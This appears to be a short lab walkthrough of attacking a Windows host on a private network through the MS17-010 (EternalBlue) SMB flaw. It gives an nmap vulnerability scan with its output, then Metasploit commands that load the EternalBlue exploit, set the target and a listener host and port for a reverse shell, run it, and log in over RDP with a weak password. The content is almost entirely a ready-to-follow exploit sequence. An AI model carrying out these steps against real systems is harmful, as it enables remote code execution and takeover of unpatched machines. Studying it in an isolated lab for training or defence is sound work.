

nessus


1.  nmap --script=vuln 192.168.44.137

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-07 08:20 EDT
Nmap scan report for 192.168.44.137 (192.168.44.137)
Host is up (0.00027s latency).
Not shown: 990 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
MAC Address: 00:0C:29:DD:D4:B1 (VMware)

Host script results:
| smb-vuln-ms17-010:              **高危漏洞**
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

Nmap done: 1 IP address (1 host up) scanned in 247.49 seconds

```

2.  msfconsole
3.  search ms17-010

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```

4.  set rhost 192.168.44.137
    msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set rhost 192.168.44.137
    rhost => 192.168.44.137
5.  set lhost 192.168.44.131
    msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set lhost 192.168.44.131
    lhost => 192.168.44.131
6.  set lport 4444
    msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set lport 4444
    lport => 4444
7.  run 
8.  get uid
9.  rdesktop -u root -p 123456 192.168.44.137